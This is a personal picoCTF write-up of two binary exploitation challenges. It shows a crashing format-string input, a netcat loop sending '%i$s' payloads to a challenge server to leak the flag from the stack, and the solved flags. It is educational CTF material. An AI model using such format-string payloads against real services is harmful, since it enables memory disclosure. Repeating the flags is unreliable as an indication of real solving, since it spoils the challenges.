 # picoCTF: Binary Exploitation

_for picoCTF challenges involving Binary Exploitation_

## format string 0

On typing out `~$ cat format-string-0.c` this section of the program looked particularly interesting:-


```
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

I knew `sigsev` referred to segmentation faults (Which I found out when I was trying to debug a program which I wrote for Advent of Code a while back), so I assumed causing the program to undergo a segfault will print the flag.

I ran `~$ gdb format-string-0` after giving permissions, I set `break main` then `run` and then repeatedly ran `ni` to go through the program. 

I played the game normally, and in the second part:-


```
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
```

I got:-

```
Program received signal SIGSEGV, Segmentation fault.
__strlen_avx2 () at ../sysdeps/x86_64/multiarch/strlen-avx2.S:74
74      ../sysdeps/x86_64/multiarch/strlen-avx2.S: No such file or directory.
```

Got confused for a second there but I replayed the game after running the instance and got the flag.

flag: `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}`

### incorrect tangents

not really a tangent but after:-

```
Program received signal SIGSEGV, Segmentation fault.
__strlen_avx2 () at ../sysdeps/x86_64/multiarch/strlen-avx2.S:74
74      ../sysdeps/x86_64/multiarch/strlen-avx2.S: No such file or directory.
```

I realised I just had to do this on the challenge instance.


## flag leak

Was a bit hard, but then I looked up format strings in better detail from `https://wiki.bi0s.in/pwning/format-string/`, I found out that before the calling of `printf` the stack gets populated with the value of the variable we are referencing and the pointer to it. However if no variable is referenced the `printf` function just returns the last thing on the stack.

and we can see this behaviour by inputting `%i$s` where `i` represents the i'th offset from the top of the stack

so I kept running: `echo "%""i""$""s" | nc saturn.picoctf.net 51449` and kept changing the value of `i` as I proceeded and on the 24th iteration I got the flag (although I should have automated this process using a shell script or a python script).

flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`

### incorrect tangents

stringing together `%s` after `%s` won't work as per the page I referenced, also wasted some time trying to make a python script to automate this but it didn't work and I just decided to do it by hand

### learnings

1. learned more about format specifiers in C
2. learned what goes on in a printf function with a format specifer
3. learned how values are put on a stack for printf function
